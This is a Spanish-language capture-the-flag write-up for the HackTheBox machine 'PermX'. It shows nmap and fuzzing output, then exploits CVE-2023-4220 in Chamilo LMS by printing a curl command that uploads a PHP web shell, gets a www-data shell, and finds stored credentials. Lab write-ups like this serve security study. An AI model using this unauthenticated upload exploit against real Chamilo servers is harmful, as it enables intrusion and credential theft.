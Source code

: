 #Easy #fuzzing #role #tecnicas 

### Ping

```python
ping -c 1 10.10.11.23
PING 10.10.11.23 (10.10.11.23) 56(84) bytes of data.
64 bytes from 10.10.11.23: icmp_seq=1 ttl=63 time=156 ms

--- 10.10.11.23 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.524/155.524/155.524/0.000 ms
```

### TTL = 63 Linux

### nmap

```python
# Nmap 7.94SVN scan initiated Fri Jul 12 13:52:19 2024 as: nmap -p- -open -sCV --min-rate 5000 -n -Pn -oN Scan 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 12 13:52:48 2024 -- 1 IP address (1 host up) scanned in 28.04 seconds
```

### Enumeración del puerto 80 (http)
no parece haber mucho en la web asi que vamos a seguir enumerando
![[Pasted image 20240712135330.png]]

### Fuzzing con ffuf
encontramos un subdominio `lms` que me llama la atención
![[Pasted image 20240712135420.png]]

`Chamilo lms`
hemos conseguido un LMS llamado chamilo así que intentaremos buscar alguna vulnerabilidad 
![[Pasted image 20240712140800.png]]

### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad     | Tipo | Nivel | Link                                                                               |
| -------------- | ------------------------------- | ---- | ----- | ---------------------------------------------------------------------------------- |
| CVE-2023-4220  | Unauthenticated Big Upload File | RCE  | 8.1   | [RCE](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git) |
|                |                                 |      |       |                                                                                    |
|                |                                 |      |       |                                                                                    |

```python

curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'

```

de esta forma vamos a cargar un archivo malicioso en este caso llamado shell.php usando el parámetro `curl -F`
![[Pasted image 20240712140505.png]]

### Shell
estaremos a la escucha en el puerto que hemos especificado y navegamos hasta la ruta donde se ha subido el archivo
`http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php`
![[Pasted image 20240712141735.png]]

### User Pivoting
actualmente somos el usuario `www-data` y enumerando el sistema podemos conseguir un archivo que contiene credenciales
![[Pasted image 20240712151512.png]]

`chamilo`
usando las credenciales que hemos conseguido no hemos podido establecer conexión vía ssh ya que el usuario o la contraseña son incorrecta
![[Pasted image 20240712152044.png]]

